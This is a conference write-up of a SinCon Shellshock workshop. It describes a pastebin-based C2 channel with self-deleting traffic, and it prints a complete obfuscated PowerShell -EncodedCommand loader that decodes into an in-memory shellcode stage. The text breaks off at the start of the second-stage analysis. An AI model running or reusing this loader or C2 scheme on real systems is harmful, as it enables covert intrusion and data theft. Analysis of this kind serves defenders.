





\
---
title: SinCon Shellshock & C2 Attack Analysis
publishDate: 2025-05-26
description: 'Writeups for SinCon Shellshock Workshop and C2 Attack Analysis'
tags:
  - Conference
  - SINCON 2025
  - C2
  - Shellshock
  - PowerShell
  - AV Evasion
heroImage: { src: './assets/banner.jpg', color: '#ffe5d4'}
language: 'English'
---

## Command & Control (C2) Attack Analysis - Beginner's Guide

### What Is This?


*The pastebin-like website used in the C2 demonstration.*

This analyzes a **Command and Control (C2)** attack that uses a pastebin website to remotely control computers. It was demonstrated in a cybersecurity workshop to teach students about modern hacking techniques.

**Key Facts:**
- **Attack Type:** Remote computer control via website messaging
- **Entry Method:** Shellshock vulnerability (CVE-2014-6271)
- **Communication:** Pastebin website as secret message board
- **Danger Level:** Very stealthy - looks like normal web browsing

**Simple Analogy:** Like using a library bulletin board to leave secret notes between a spy and their target.

### How C2 Attacks Work

#### The Basic Process
1. **Initial Compromise:** Hacker exploits Shellshock bug to break into computer
2. **Implant Installation:** Plants spy program (`binpaste_client_p1.py`) on victim computer  
3. **Communication Setup:** Both attacker and victim programs use same pastebin account
4. **Command & Control:** Continuous cycle of commands and data theft

#### Why Use a Website Instead of Direct Connection?
- **Stealth:** Looks like normal pastebin usage
- **Evasion:** Hard to block without affecting legitimate users
- **No Direct Trail:** Attacker never connects directly to victim
- **Multiple Victims:** One website can control many computers

**Real-World Impact:** Victim\'s passwords, files, and personal data get stolen without them knowing.

### Communication Protocol (9-Step Process)


*Diagram illustrating the 9-step communication protocol between attacker, C2 server (pastebin), and implant.*

#### 🚀 Setup Phase
**Step 1:** 🔴 **Red Team to binpaste**  
Initial login (`-u eviluser -p eviluser`)  
*Attacker\'s program connects to pastebin and authenticates.*

**Step 2:** 💻 **Implant to binpaste**  
Initial login (`-u eviluser -p eviluser`)  
*Victim\'s spy program also logs into same pastebin account.*

#### 🔄 Command Execution Cycle
**Step 3:** 👀 **Implant to binpaste**  
GET: Polling the main page for new commands  
*Every 10 seconds, victim computer checks: "Any new orders for me?"*

**Step 4:** 📝 **Red Team to binpaste**  
POST: Paste the command  
*Attacker posts command like "list all files" or "steal passwords".*

**Step 5:** 📥 **Implant to binpaste**  
GET: Fetch the command  
*Victim computer finds the command and downloads it.*

**Step 6:** 📤 **Implant to binpaste**  
POST: Paste the result  
*Victim executes command and uploads stolen data/results.*

#### 🧹 Cleanup Phase
**Step 7:** 🗑️ **Implant to binpaste**  
POST: Delete the command  
*Victim removes the original command to hide evidence.*

**Step 8:** 📥 **Red Team to binpaste**  
GET: Fetch the result  
*Attacker downloads the stolen data/results.*

**Step 9:** 🗑️ **Red Team to binpaste**  
POST: Delete the result  
*Attacker removes all traces of the conversation.*

**🔑 Key Feature:** Automatic evidence removal makes detection extremely difficult - it\'s like the conversation never happened!

### Technical Components

#### Two-Program Architecture
**Controller (`binpastec2_p1.py`)** - Attacker\'s command interface
- Sends commands via pastebin posts
- Retrieves stolen data from victim computers
- Can control multiple victims simultaneously

**Agent (`binpaste_client_p1.py`)** - Victim\'s implant
- Polls pastebin every 10 seconds for new commands
- Executes commands and uploads results
- Automatically cleans up evidence

#### Attack Advantages
- **Legitimate Infrastructure:** Uses real pastebin service
- **Encrypted Channel:** HTTPS traffic appears normal
- **Scalable:** One controller handles multiple victims
- **Persistent:** Continues running until manually removed

### Workshop Context


*The workshop setup showing the attacker and victim machines.*


*Example of code modification required in the workshop scripts.*

**Educational Demonstration Only:**
- Controlled environment with test systems
- Scripts contain incomplete code marked `# (your code here)`
- No actual victims or data theft occurred
- Used legitimate pastebin service for demonstration

**Learning Objectives:**
- Understand modern C2 communication methods
- Recognize legitimate services used maliciously  
- Practice detection and response techniques
- Learn defensive strategies

### Key Takeaways

This attack is smart because it looks completely normal - just regular visits to a pastebin website. The hacker doesn\'t need special servers or suspicious connections. The 10-second check-ins are perfectly timed: fast enough to work well, slow enough to stay hidden.

What makes this really scary is how it cleans up after itself. Most computer viruses leave clues behind, but this one automatically deletes everything as it goes. It\'s like having a conversation that erases itself - investigators can\'t figure out what happened.

---

The Shellshock workshop also covered methods used by attackers to evade antivirus detection with their payloads. The following analysis, also part of the workshop materials, delves into PowerShell-based AV evasion techniques.

## PowerShell Payload AV Evasion Analysis

This document analyzes the multi-layered techniques a PowerShell payload uses to evade Antivirus (AV) detection, primarily through obfuscation and in-memory execution.

### Initial Encoded Command

The attack begins with a heavily obfuscated PowerShell command, executed stealthily:

```powershell
powershell.exe -NoLogo -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile -EncodedCommand aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAkAGUAbgB2ADoAdwBpAG4AZABpAHIAKwAnAFwAcwB5AHMAbgBhAHQAaQB2AGUAXABXAGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQBlAGwAcwBlAHsAJABiAD0AJwBwAG8AdwBlAHIAcwBoAGUAbABsAC4AZQB4AGUAJwB9ADsAJABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG9jAGUAcwBTAHQAYQByAHQASQBuAGYAbwA7ACQAcwAuAEYAaQBsAGUATgBhAG0AZQA9ACQAYgA7ACQAcwAuAEEAcgBnAHUAbQBlAG4AdABzAD0AJwAtAG4AbwBwACAALQB3ACAAaABpAGQAZABlAG4AIAAtAGMAIAAmACgAWwBzAGMAcgBpAHAAdABiAGwAbwBjAGsAXQA6ADoAYwByAGUAYQB0AGUAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwB6AGkAcABTAHQAcgBlAGEAbQAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4ATQBlAG0AbwJ5AFMAdAByAGUAYQBtAFIAZQBhAG0AKAAuAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAoACgAJwAnAEgANABzAEkAQQBQAHQASQBMAFcAZwBDAEEANwBWAFgAYgBXACsAYgBTAEIARAArAFgAcQBuAC8AQQBWAFcAVwBqAEYAWABIAEwANgBtAFQAcABwACcAJwArACcAJwBFAGkAMwBXAEoARABqAEcAcwBuAEoAaABqAGMAMgBMAFYATwBHAEIAYgBZAGUAQQAwAEUARgB0AHUAawAxAC8AOQArAHMAeABqAHkAbwBqAHAAMwB1AHsAMQB9AE8ASwBoAE0AegB1AHoAcwB6AE8AUAB2AFAATQB6AE4AcABOAEEANQB1AFIATQBCAEEAaQBTAHgAewAxAH0AKwB2AEgAOABuAEYATQAvAFkAaQBxADIAMQBJAEYAYgB1AEIAaQBkADEAbwBXAEwAOQBPAFUARwBuAHQAYQBmAFYAUwBuAFEAagBuADYAMgBFAEMAMABHAGMAbwB5AGoAcQBoAFcAdQBMAEIASQB2ACcAJwArACcAJwB6ADgAMgA0AGEAeAB6AGgAZwArADMASABqAEUAagBPAFUASgBIAGkAOQBwAEEAUQBuAFkAawAzADQAUwA1AGoANgBPAE0AewAxAH0ASAAxADgAcwA3AGIARABQAGgAaAAxAEQANQBzADMARgBKAHcANgBWAEYAQwA3AEcAcwBhADkAawArAEYAbwA1AFEANABQAEMAMQBZAFcAaABiADMATABXAEcASABsAEgAQwB4AE8AcgAzADcAOQBYAGEALwBLAGkAOQBhAE0AagAzAHEAVQBVAFQAcwBhAHAAbgBDAGMAUAByAGgAawAnACcAKwAnACcATgBwAHQAUwBiADgAcgBQAEUATgBKADEAbQBFAHgAZQBxAEkAMgBIAEcAWQBoAEMANQByAFQARQBuAHcANgBiAGgAaABCAEkAbgBsADQAaQB1AHcAdABzAEUAagB6AFAAegBRAFMAYQBwAHcAbQBxAGYAegB4AEoAaQBsAGMAVgBBAGMAaQA5AHYAewAxAH0AUwA0AGwAVgArAEIAegBIAG8AWQAwAGMASgA4AHsAMQB9AEoAVQBxADAATABjADcANwBEAGYATABIADQAUQA1AHcAWAAyADkAKwBrAEEAUwBOAHIAMwBGAEEARABoAHUATQB3ADAAbgBHADgASQBUAHsAMQB9AE8ARwBuADAAcgBjAEMAaQArAHcAZQA0AEMAdABIAFEAVwBrADgAQgBiADEARwBvAGcAdABnAGwAWABXAEsAdwBFAEsAYQBWADEANABiACsAWQBFAGEALwB3AHQAZwBUAHYAcgBVAHIAaQBjAHkAVwBRAEcAcgBPADQAVgBvAGUAdwBIAGoAcgBvAEsASABSAFMAaQB2AGUAcQAxAFEATwBlAGMAaQA3AFUANABIAG4AawBBACcAJwArACcAJwAwAEQANABrADYAUABvAGwAaAAnACcAKwAnACcAegBhAGYASgBzAGQANABOAEQAVABSAFAAbgBNADgAeABVAE0AUABvAHYAagBNAEMARwA1ADcAbwBYAFEAcQBnAHMAagAyAE4AeABpAFkAewAxAH0AegBCAHMARABLAEoAVQAxAHgAYgBQAEMASQB1AFYATwB3AG8ATwBBAG4AcgBiAHoAWABYAEwAbgBWAEIATQA3AE8AWABNAEQATQAzAFEAKwBJAHMAbgB2AFIAZgBVAEsAQgBpAFgAYgBwAGMANQBuAFUAKwA5ADcAQgBMAEEAdAB6AEwAQQBtAHQATgA3AEoASwB5ADQAcQBHAG8AWQBKAGYAaQBIAEoARgBHAEsAWABZAEYALwBvAG4AVgBZAGcARQA3AFAAVQB5AHgAewAxAH0AegBFAE8ATQB5AGYASABMADIAcgB5AG0AcgBCAEgAWABTAGsAbAAxAE0ARQB4AHMAaQBHAHkAQwBYAGcARgBRAGEAKwA5AGQARwBZAGYATwBiAEcAcQBCAGkATwA4AEIAdgBUADIAWQAyAEIAcgB4AFkAVgBFAHcAYQBWADAAawBSAHgAewAxAH0AdQBUAHMAZgBnADEAQwAxAFMANgAwAGsAcQBRAHYAagBGAEQATABWAHIAZwBzADYAdABpAGgAMgA2AGcASQBLAEUAbABJAHMAbwB7ADEAfQBTAEYAKwBXAGYAMQB5AGQAMQBSAFMAaABtAHgAcgBZAFMAVgA1AGgAYQAxAGwAMgBnAFcAdQAzAGIARABJAEcARgB4AGEAawBOAFkAQQBZAEcASgAnACcAKwAnACcASABtAEcAYgBXAEoAUQBEAFUAaABmADYAeABNAEYAUwBwAGgATwB2ADMATAAxADYARQBJADYAdQBSAFMAbQBrAEQAMQBqAGEAUQBEAGgAZwBoAHMATwBnAE0AMAA2AFcARwBCAHoAZABFADYAUABXADAARABGAFQAMQB4AEgARgBhAHgARABLAEsANABkAEMATABRAC8AcQBSAEoARQBsAE8AYgAwAHMARAB6AHYAJwAnACsAJwAnAFYAdwA0ADYAVwBxAGIARABuAFAAUQBlAG0AUgBPAFMAewAxAH0AbQB4AEIAdABuAFkAYQBzAEwAcABnAGsAewAxAH0AbABDAEcATwBNAGoAQQByAHYALwBuAHgASwA4AEYAaQBIAHYAVABqAFgARQBSAEgATABIAE0AcwBMAG0AVQBNAHsAMQB9ADQARABsAFUAUwAvAFYAVABzAEwAQwA0AHgAeQBSAEcASQBHAGEAQwBoAHgAdQBKAGEAJwAnACsAJwAnAHMAQgBKADkAMgA5AHEAVgBHAC8ATgBDAFUAUwBlADkAawAzAEEAdQAzAEMAQgA1AHsAMQB9AHUAZABGAE0AUwBUAGYATQBtAFQAcAB5AEIAbABSAFgAbQBYADQAcgBrADYASABoACsAeQBwAHAAcQB4ADYAJwAnACsAJwAnAE0ATQAwAFAAMgB4AHEAdwBWAGYAewAxAH0AMQBNACsAZwBPADkAMQAwAGQAeABiACsAZQA3AFMARQAxAFUAdQBTADkAbABXAGwAdABDAGQAcAA5ADgATgBnAGUAUwBZAFkAQQBlADYAUQA2ADEAdQA1ADIASwBuAE8ANwBRAFUAegAzAFkAUQBGAEoAOQBXADIAcgBOAFcAcAA3AFUAVQByAHAARABYAGYASgBsADAAawBLAGUAcgB2AFcAMQBUAG4AdQBtAE4AcwArAG8AUgBCADUAMABWACcAJwArACcAJwBVAGYAOQA2AGEAUAA5AFIANwB0AHkAcAA5AFAALwB0AHAAdQBnAHEAOQBFAEEAKwBjAHEAMQBvADcAUwBQAGwAVgB4AC8AeABmAFYAbgBxADgAdABoAFQAOAA3AEgATgBoADkAcgB0ADQAbABNAHsAMQB9AE4AaABIAFYAbQA0ADEAMAA4AGQAVABNADUASwBtAHMAagBMAFQAegBFAGoAMQBQAG0ANAA5AHoAUgB3ACcAJwArACcAJwAyAE8ANABvAHYAJwAnACsAJwAnAHcAYgB4AEsAZABzAFAASQBiAE0ATABUAGIAZwA4ADIAZwBmAE0AdwBvAG0AJwAnACsAJwAnAGMAUABJADMAQgBYAE0AMgBjAEQAZwBtAGUAcQBoAHoATQBQAGEAUQBqAHAAdAB3AEgAVgBsADkAcwB1AGsAaABRAGIANwBmAEUAeQBZAEcANAAxAFUAWQBPAGQAdABvAHgARwBUAG4AYgBiAGIAMwA0AHgAUgB3AFIASABJAGQASgBrAGgAQgBRAEsAVwBiAGwARwAxAHIAYgBYAGIASgB1AFMAeABzADgARQAnACcAKwAnACcATAA5AEwASABUAGEAUwAnACcAKwAnACcAcgBRAGIAZgA0AGwAYgBSAGwAZgAnACcAKwAnACcATgAvADcAMAB2AFIAQQBWAHkAVwAyAGMAeQArAEQAegAyAEMAVAB3AE4AbwBKAHIASABXAFAASAA1AHkAQQByADAARgBNAFYATwBLAEMAegBkAGkATgByAHMAZgBnAHIAdABIAGEAYgBXAFYAdgAxADEAcQBSAHcAVQBmAGoAOAB0AFMANQAzAG4ANwB1AHUARQAyAFQANgA4AEgAYgBCADUALwBhAHkAMQBYAGIANQA3AHEAZQByAFgAcwBJAHoAcQBRAHYALwBiAHYAbABWAEUATwBGAC8AeAByAEUAVwB5AFYANAA4AE0AMQBzAE8AMQBjAGoAVwA3AHIAdgBtAFYAUQB5AHIAbwBkAG4AcwA4AFMAUgBCADQAbwBtAEkAWQBOAGMAMwBYAFMAMQAyADUAMABuAGgAVwBCAHoARABjAHUAUwBzACcAJwArACcAJwBkAGMAYgBOAE0ALwA0AGQAOQBEAE0ANQBPAFAAQgAxAHMAagBnAHYAVAB6AEYAOQByAGIAcABiADgAQwBIAFgAbAArAEgAOAAzADAAbAAyAHgATQBwADkAVQBpAC8AUAB3AFUATQBsAHAAcwB0AHMAdwB7ADEAfQBUAGIAWABtAC8AcABzAHQAagBKAC8AZgByAFQAQQB2AEgAYQBIAGIAVwBEAFgAdQBmAE8AMwAxAEQAUwBWAHYAMgB4AEYANQAvAHUAZQBmAFkARQBTAGQAdQB0AHIAVwBMAGkAdwA5AEEAOABMAGwAQgBBAHYAYgBwAGUARgBGAHgAagA5AHUAVwB6AHYAdgBBACsAMwBjAFYAUgB6AE4ARwB6ADMAagArAFcAcAA4AGIAVwBYAEgAaQBXAHgAVAA0AEQALwAyAHIAcgBFAE4ASwBHAEMAdABGAFIAeABxAEgAaABHAHUASQBJAHIALwBkAHIASABBAGMAWQBBAHIAWABBAGIAZwB3AGwATwBtAEwASwBBADEAdAAzAGgARgA1ADYANABKAG0AdgBHACsAUgB2AEcATQBiAGEAdQA3AFYAbwBhACsAYQA4AEMAaABZAGUAKwBxAFQANQBkAFQANQArAFEAeAA4AGgASQBMAEEAYwA3AFUAeAB4AEkASABIAC8ASABwAHIAOQA2AG4AVgBnAGcAYgBYADIAcgBVADYAZQBlAEsALwAvAFcAVABkAE0ATQByAEUAMwBGAGkAZAB0ADgAZwBjAG0AdABJADYAegBhADIAJwAnACsAJwAnAEQAUQBlAEkASwBvAHYAagBiADAAWQBLAHIARQBJAE8AUwAvAEMAcABlAHIAMABFAEgATwA2ACsAZwBnAEUASgBGADMAMQBjADEARABxAEEAVQBoAHYAUQA1AGYATQBXADUASAB0AG4AdwBIAEQAMgBBAHIAUQAxAEgAbgAvAE4AYgAwAEoANABtAFkATwBJAEkAMwB3AHMAJwAnACsAJwAnAFYAeAB1ADgASQB6ACsAOABjAEYAUwB1AEoAZgB5AHQAeABpAHUAcgBzAHcANAAvAHoATAA4AFIANQBtAHYAdQBIADEAVABlAFIAcQBWAFgAZgB3AC8AUABMADkATQB1AEoAewAxAH0AMwAzAHQAJwAnACsAJwAnADkAdwBFAHcAJwAnACsAJwAnAHQAUQBnAEQAUQBSADIAYQBEAE0AWAA3AGkAOAA5AEIASABJAHAAYwBlAFIAewAxAH0AaABDAEEAMABrAGcAbABzADgALwBBAC8AQgBkAGMAcQBPAHIAdQBCADYAbQBiAGUANQB2AHcARgBiAE4ARQBxAHUAaQB3AHcAQQBBAEEAewAwAH0AewAwAH0AJwAnACkALQBmACcAJwA9ACcAJwAsACcAJwBaACcAJwApACkAKQApACwAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZQBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJABzAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPAHUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAcwAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAByAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFMAdABhAHIAdAAoACQAcwApADsA
```

This deobfuscation can also be performed manually for analysis, using the Base64 string from the first-stage script, to obtain the second-stage script:
```powershell
$compressed = ((("H4sIAPtILWgCA7VXbW+bSBD+Xqn/AVWWjFXHL6mTpp" + "Ei3WJDjGsnJhjc2LVOGBbYeA0EFtuk1/9+sxjyojp3u{1}OKhMzuzszOPvPMzNpNA5uRMBAiSx{1}+vH8nFM/Yiq21IFbuBid1oWL9OUGntafVSnQjn62EC0GcoyjqhWuLBIv" + "z824axzhg+3HjEjOUJHi9pAQnYk34S5j6OM{1}H18s7bDPhh1D5s3FJw6VFC7Gsa9k+Fo5Q4PC1YWhb3LWGHlHCxOr379Xa/Ki9aMj3qUUTsapnCcPrhk" + "NptSb8rPENJ1mExeqI2HGYhC5rTEnw6bhhBInl4iuwtsEjzPzQSapwmqfzxJilcVAci9v{1}S4lV+BzHoY0cJ8{1}JUq0Lc77DfLH4Q5wX29+kASNr3FADhuMw0nG8IT{1}OGn0rcCi+we4CtHQWk8Bb1GogtglXWKwEKaV14b+YEa/wtgTvrUricyWQGrO4VoewHjroKHRSiveq1QOeci7U4HnkA"+"0D4k6Polh"+"zafJsd4NDTRPnM8xUMPovjMCG57oXQqgsj2NxiY{1}zBsDKJU1xbPCIuVOwoOAnrbzXXLnVBM7OXMDM3Q+IsnvRfUKBiXbpc5nU+97BLAtzLAmtN7JKy4qGoYJfiHJFGKXYF/onVYgE7PUyx{1}zEOMyfHL2rymrBHXSkl1MExsiGyCXgFQa+9dGYfObGqBiO8BvT2Y2BrxYVEwaV0kRx{1}uTsfg1C1S60kqQvjFDLVrgs6tih26gIKElIso{1}SF+Wf1yd1RShmxrYSV5ha1l2gWu3bDIGFxakNYAYGJ"+"HmGbWJQDUhf6xMFSphOv3L16EI6uRSmkD1jaQDhghsOgM06WGBzdE6PW0DFT1xHFaxDKK4dCLQ/qRJElOb0sDzv"+"Vw46WqbDnPQemROS{1}mxBtnYasLpgk{1}lCGOMjArv/nxK8FiHvTjXERHLHMsLmUM{1}4DlUS/VTlLC4xyRGIGaChxuJa"+"sBJ929qVG/NCUSe9k3Au3CB5{1}udFMSTfMmTpyBlRXmX4rk6Hh+yppqx6"+"MM0P2xqwVf{1}1M+gO910dxb+e7SE1UuS9lWltCdp98NgeSYYAe6Q61u52KnO7QUz3YQFJ9W2rNWp7UUrpDXfJl0kKervW1TnumNs+oRB50V"+"Uf96aP9R7typ9P/tpugq9EA+cq1o7SPlVx/xfVnq8thT87HNh9rt4lM{1}NhHVm4108dTM5KmsjLTzEj1Pm49zRw"+"2O4ov"+"wbxKdsPIbMLTbg82gfMwom"+"cPI3BXM2cDgmeqhzMPaQjptwHVl9sukhQb7fEyYG41UYOdtoxGTnbbb34xRwRHIdJkhBQKWblG1rbXbJuSxs8E"+"L9LHTaS"+"rQbf4lbRlf"+"N/70vRAVyW2cy+Dz2CTwNoJrHWPH5yAr0FMVOKCzdiNrsfgrtHabWVv11qRwUfj8tS53n7uuE2T68HbB5/ay1Xb57qerXsIzqQv/bvlVEOF/xrEWyV48M1sO1cjW7rvmVQyrodns8SRB4omIYNc3XS1250nhWBzDcuSs"+"dcbNM/4d9DM5OPB1sjgvTzF9rbpb8CHXl+H830l2xMp9Ui/PwUMlpstsw{1}TbXm/pstjJ/frTAvHaHbWDXufO31DSVv2xF5/uefYESdutrWLiw9A8LlBAvbpeFFxj9uWzvvA+3cVRzNGz3j+Wp8bWXHiWxT4D/2rrENKGCtFRxqHhGuIIr/drHAcYArXAbgwlOmLKA1t3hF564JmvG+RvGMbau7Voa+a8ChYe+qT5dT5+Qx8hILAc7UxxIHH/Hpr96nVggbX2rU6eeK//WTdMMrE3Fidt8gcmtI6za2"+"DQeIKovjb0YKrEIOS/Cper0EHO6+ggEJF31c1DqAUhvQ5fMW5HtnwHD2ArQ1Hn/Nb0J4mYOII3ws"+"Vxu8Iz+8cFSuJfytxiursw4/zL8R5mvuH1TeRqVXfw/PL9MuJ{1}33t"+"9wEw"+"tQgDQR2aDMX7i89BHIpceR{1}hCA0kgls8/A/BdcqOruB6mbe5vwFbNEquiwwAAA{0}{0}") -f"=","Z")))
$bytes = [System.Convert]::FromBase64String($compressed)
$stream = New-Object System.IO.MemoryStream(, $bytes)
$gzip = New-Object System.IO.Compression.GzipStream($stream, [System.IO.Compression.CompressionMode]::Decompress)
$reader = New-Object System.IO.StreamReader($gzip)
$script = $reader.ReadToEnd()
Write-Output $script
```

This "manual method" reveals the second-stage script, which is then analyzed for its shellcode execution capabilities.

### Second-Stage Script: In-Memory Shellcode Execution

The deobfuscated second-stage script (`payload.ps1`) is designed to execute shellcode directly in memory, a common tactic to bypass file-based AV detection.

Key features of this script:
